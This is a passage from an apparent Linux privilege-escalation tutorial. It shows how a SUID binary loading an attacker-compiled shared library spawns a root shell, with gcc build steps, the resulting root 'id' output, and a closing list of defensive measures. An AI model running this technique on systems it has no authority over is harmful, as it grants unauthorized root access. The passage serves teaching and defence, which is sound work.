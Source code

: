 However, because I want to demonstrate this privilege escalation technique, I'll ignore the warnings and just compile the program so I won't use it:

```bash
user@pwn:~/.config$ gcc -c -Wall -fpic custom.c
custom.c: In function ‘inject’:
custom.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
custom.c:8:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |  setgid(0);
      |  ^~~~~~
```

Create the shared object:

```bash
user@pwn:~/.config$ gcc -shared -o custom.so custom.o
```

Execute the program and since the program has a SUID bit set, it executes as root, then it loads the evil library, and the evil library spawns a root shell:

```bash
/usr/bin/nosuchfile
```

As we can see we're able to escalate to the root user:

```bash
user@pwn:~/.config$ /usr/bin/nosuchfile
Hello
root@pwn:~/.config# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
```

Now remove the SUID bit and try to execute the binary again:

```bash
user@pwn:~/.config$ sudo chmod u-s /usr/bin/nosuchfile 
user@pwn:~/.config$ /usr/bin/nosuchfile
Hello
user@pwn:~/.config$ 
```

For this to work, the binary must have the SUID bit set.

# Defend

To defend against these attacks, consider the following measures:

- Avoid setting the SUID bit on executables that are not necessary.
- Ensure that `/lib` and `/usr/lib` directories are not writable by others.
- Verify that the directories specified in `/etc/ld.so.conf` are not writable by others.
- Ensure that the directories specified in `LD_LIBRARY_PATH` are not writable by others.
